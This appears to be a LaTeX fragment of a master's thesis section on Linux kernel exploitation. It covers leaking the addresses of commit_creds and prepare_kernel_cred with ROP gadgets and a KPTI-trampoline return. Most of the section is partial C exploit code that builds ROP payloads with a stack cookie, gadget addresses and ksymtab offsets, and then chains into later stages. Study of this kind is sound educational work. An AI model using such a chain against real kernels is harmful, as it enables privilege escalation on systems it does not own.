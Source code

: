 \documentclass{masterthesis}
\newcommand{\refToSection}[1]{Section~\ref{sect:#1}\xspace}
\begin{document}
\subsection{Leaking commit\_creds and prepare\_kernel\_cred()}
The goal is to leak \texttt{commit\_creds} and read the value\_offset of \lstinline{ksymtab_commit_creds}, then add them together. We want to use our 2 memory reading gadgets to read it, using the \emph{ROP} technique introduced in \refToSection{trampoline}, and safely return to the user-land via the \emph{KPTI} trampoline to prepare for the next step.
\begin{lstlisting}
void stage_1(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // RBX
    payload[off++] = 0x0; // R12
    payload[off++] = 0x0; // RBP
    payload[off++] = pop_RAX_ret; // return address
    payload[off++] = ksymtab_commit_creds - 0x10; // RAX <- __ksymtabs_commit_creds - 0x10
    payload[off++] = read_mem_pop1_ret; // RAX <- [__ksymtabs_commit_creds]
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_commit_creds;
    ....
}
void get_commit_creds(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    commit_creds = ksymtab_commit_creds + (int)tmp_store;
    printf("    --> commit_creds: %lx\n", commit_creds);
    stage_2();
}
\end{lstlisting}
Second stageis exactly the same as stage 1:
\begin{lstlisting}
void stage_2(void){
    ...
    //the same as 1 stage
    ...
    payload[off++] = ksymtab_prepare_kernel_cred - 0x10; // RAX <- __ksymtabs_prepare_kernel_cred - 0x10
    payload[off++] = read_mem_pop1_ret; // RAX <- [__ksymtabs_prepare_kernel_cred]
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_prepare_kernel_cred;
    ....
}

void get_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
    printf("    --> prepare_kernel_cred: %lx\n", prepare_kernel_cred);
    stage_3();
}

\end{lstlisting}
\end{document}
